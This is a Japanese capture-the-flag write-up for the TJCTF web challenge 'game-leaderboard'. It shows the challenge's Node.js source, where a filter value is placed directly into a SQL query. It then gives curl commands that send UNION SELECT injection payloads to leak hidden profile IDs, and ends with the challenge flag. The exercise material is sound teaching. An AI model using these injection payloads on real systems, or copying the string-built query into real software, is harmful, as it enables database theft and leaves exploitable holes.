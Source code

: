# game-leaderboard:web:174pts
I (superandypancake) signed up for this tournament to win a flag! Unfortunately, I'm not so good. But I'm sure there still is a way to get the flag... right?!?  
[game-leaderboard.tjc.tf](https://game-leaderboard.tjc.tf/)  

Downloads  
[index.js](index.js)  

# Solution
ソースとサイトが渡される。  
アクセスすると、謎のリーダーボードがあり、フィルターで表示を変更できるようだ。  
[site.png](site/site.png)  
ソースは以下のようであった。  
```js
~~~
const FLAG = fs.readFileSync(`${__dirname}/flag.txt`).toString().trim()

const getLeaderboard = (minScore) => {
    const where = (typeof minScore !== 'undefined' && minScore !== '') ? ` WHERE score > ${minScore}` : ''
    const query = `SELECT profile_id, name, score FROM leaderboard${where} ORDER BY score DESC`
    const stmt = db.prepare(query)

    const leaderboard = []
    for (const row of stmt.iterate()) {
        if (leaderboard.length === 0) {
            leaderboard.push({ rank: 1, ...row })
            continue
        }
        const last = leaderboard[leaderboard.length - 1]
        const rank = (row.score == last.score) ? last.rank : last.rank + 1
        leaderboard.push({ rank, ...row })
    }

    return leaderboard
}
~~~
app.post('/', (req, res) => {
    const leaderboard = getLeaderboard(req.body.filter)
    return res.render('leaderboard', { leaderboard })
})

app.get('/user/:userID', (req, res) => {
    const leaderboard = getLeaderboard()
    const total = leaderboard.length

    const profile = leaderboard.find(x => x.profile_id == req.params.userID)
    if (typeof profile === 'undefined') {
        return res.render('user_info', { notFound: true })
    }

    const flag = (profile.rank === 1) ? FLAG : 'This is reserved for winners only!'
    return res.render('user_info', { total, flag, ...profile })
})
~~~
```
rankが1なユーザのページにflagがあるようだ。  
ただし、`https://game-leaderboard.tjc.tf/user/1`などは404であるので、ページ上の数値は`userID`ではないようだ。  
`getLeaderboard`に自明なSQLiがあるので以下のように、`userID`とされる`profile_id`を取得する。  
フロントで数値であるかの入力チェックをしているがcurlなので無視できる。  
```bash
$ curl -X POST https://game-leaderboard.tjc.tf/ -d "filter='"
~~~
<pre>Internal Server Error</pre>
~~~
$ curl -X POST https://game-leaderboard.tjc.tf/ -d "filter=0 UNION SELECT 1, 1, 1 ; -- satoki"
~~~
                        <tr>
                            <td>1</td>
                            <td>1</td>
                            <td class="text-center">1</td>
                        </tr>
~~~
$ curl -X POST https://game-leaderboard.tjc.tf/ -d "filter=0 UNION SELECT 1, 1, profile_id FROM leaderboard ; -- satoki"
~~~
                        <tr>
                            <td>1</td>
                            <td>1</td>
                            <td class="text-center">1e3ee1488d2d09fa</td>
                        </tr>

                        <tr>
                            <td>2</td>
                            <td>1</td>
                            <td class="text-center">2b7485706b1f7090</td>
                        </tr>

                        <tr>
                            <td>3</td>
                            <td>1</td>
                            <td class="text-center">6896e98c2e4584db</td>
                        </tr>

                        <tr>
                            <td>4</td>
                            <td>1</td>
                            <td class="text-center">a248cd0874717e51</td>
                        </tr>

                        <tr>
                            <td>5</td>
                            <td>1</td>
                            <td class="text-center">c35b9ef595b655a0</td>
                        </tr>
~~~
```
無事にuserIDを取得できた。  
あとはユーザのページにアクセスしてやればよい。  
flag  
[flag.png](site/flag.png)  
`https://game-leaderboard.tjc.tf/user/1e3ee1488d2d09fa`にflagが書かれていた。  

## tjctf{h3llo_w1nn3r_0r_4re_y0u?}